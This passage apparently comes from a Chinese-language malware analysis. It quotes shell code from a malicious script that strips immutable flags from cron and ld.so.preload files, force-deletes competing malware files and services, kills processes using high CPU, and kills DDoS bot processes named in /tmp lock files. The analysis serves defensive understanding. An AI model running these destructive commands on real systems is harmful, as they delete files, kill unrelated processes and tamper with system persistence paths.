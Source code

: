 通过chattr指令锁定系统权限，关闭资源占用较高的服务：

```
chattr -i /etc/cron.d/root

chattr -i /etc/cron.d/system

chattr -i /etc/ld.so.preload

chattr -i /etc/cron.d/apache

chattr -i /var/spool/cron/root

chattr -i /var/spool/cron/crontabs/root

chattr -i /usr/local/bin/dns

chattr -i /usr/sbin/netdns

chattr -i /bin/netstat

rm -rf /etc/cron.d/system /etc/cron.d/apache /etc/cron.hourly/oanacron /etc/cron.daily/oanacron /etc/cron.monthly/oanacron /usr/local/lib/libn

tp.so /etc/init.d/netdns /etc/init.d/kworker /bin/httpdns /usr/local/bin/dns /bin/netstat /usr/sbin/netdns

chkconfig --del kworker

chkconfig --del netdns

p=$(ps auxf|grep -v grep|grep ksoftirqds|wc -l)

if [ $`{`p`}` -eq 0 ];then

    ps auxf|grep -v grep | awk '`{`if($3&gt;=80.0) print $2`}`'| xargs kill -9

fi
```

杀掉一些DDoS进程：

```
if [ -e "/tmp/gates.lod" ]; then

    rm -rf $(readlink /proc/$(cat /tmp/gates.lod)/exe)

    kill -9 $(cat /tmp/gates.lod)

    rm -rf $(readlink /proc/$(cat /tmp/moni.lod)/exe)

    kill -9 $(cat /tmp/moni.lod)

    rm -rf /tmp/`{`gates,moni`}`.lod

fi
```
